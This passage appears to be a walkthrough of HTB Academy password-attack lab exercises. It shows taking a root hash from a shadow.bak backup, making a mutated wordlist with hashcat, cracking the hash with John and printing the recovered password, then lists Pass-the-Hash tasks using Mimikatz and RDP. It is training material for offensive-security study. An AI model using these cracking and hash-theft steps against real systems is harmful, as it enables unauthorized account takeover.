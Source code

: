As we can see, there are 2 files that are interesting to us, passwd.bak and shadow.bak. We can open them and see what's inside, but we only need to get the root password, so we need to go to shadow.bak file and select the first line belonging to root: 
```c
root:$6$XePuRx/4eO0WuuPS$a0t5vIuIrBDFx1LyxAozOu.cVaww01u.6dSvct8AYVVI6ClJmY8ZZuPDP7IoXRJhYz4U8.DJUlilUw2EfqhXg
```

We can copy and paste this line to our attack machine and name it hash.txt. Then we need to use password.list and custom.rule files from resources in the top right section in htb-academy password attacks module. Now we need to create a mutated list of that passwords using the custom.rule:
```c
hashcat --force password.list -r custom.rule --stdout | sort -u > mutated-passwords
```

For now we have mutated-passwords file which we can finally use to crack the hash of the root password:
```c
john hash.txt --wordlist=mutated-passwords 
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
J0rd@n5          (root)     
1g 0:00:00:12 DONE (2024-10-15 22:59) 0.07727g/s 2215p/s 2215c/s 2215C/s Il0vey0u98!..J0seph83
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```


### Pass the Hash (PtH)

`Note: The tools we will be using are located in the C:\tools directory on the target host. Once you start the machine and complete the exercises, you can use the tools in that directory. This lab contains two machines, you will have access to one (MS01), and from there, you will connect to the second machine (DC01). `

24.  Access the target machine using any Pass-the-Hash tool. Submit the contents of the file located at C:\pth.txt.


25.  Try to connect via RDP using the Administrator hash. What is the name of the registry value that must be set to 0 for PTH over RDP to work? Change the registry key value and connect using the hash with RDP. Submit the name of the registry value name as the answer.


26.  Connect via RDP and use Mimikatz located in c:\tools to extract the hashes presented in the current session. What is the NTLM/RC4 hash of David's account?


27. Using David's hash, perform a Pass the Hash attack to connect to the shared folder \\DC01\david and read the file david.txt.


28. Using Julio's hash, perform a Pass the Hash attack to connect to the shared folder \\DC01\julio and read the file julio.txt.
